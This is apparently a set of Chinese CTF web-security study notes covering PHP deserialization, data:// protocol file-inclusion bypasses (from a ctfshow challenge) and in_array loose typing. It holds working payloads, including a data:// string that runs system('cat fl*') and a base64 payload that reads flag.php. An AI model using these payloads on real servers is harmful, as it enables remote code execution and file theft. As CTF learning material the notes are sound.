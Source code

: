 ```bash
O:1:"A":3:{s:4:"file";s:3:"flagflagflag#";s:10:"weblogfile";s:12:"flflagag.php";}s:10:"weblogfile";s:8:"flflagag.php"
```

### data伪协议

```php
data伪协议可以绕过一些过滤进行文件包含
例如
<?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}//题目来自ctfshow web38
payload=  data://text/plain;base64,PD9waHAgcmVhZGZpbGUoJ2ZsYWcucGhwJyk/Pg== 即可绕过正则匹配
```

data协议还有个特性 若传入的文本是完整的php语句，则相当于执行了该PHP语句。

例如

```php
<?php


//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
payload:   data://text/plain,<?php%20system("cat fl*");?>
data://text/plain 相当于执行了php语句 后面的.php因为前面被闭合所以相当于直接在html页面输出。
```

### in_array

```php
<?php  
    $num = $_GET['num'];
    $arr = [1, 2, 3, 4];
    if(in_array($num, $arr)){
        echo 'yes';
    }
    else{
        echo 'no';
    }
因为弱类型，传入1.php，2.php等输出为yes
```
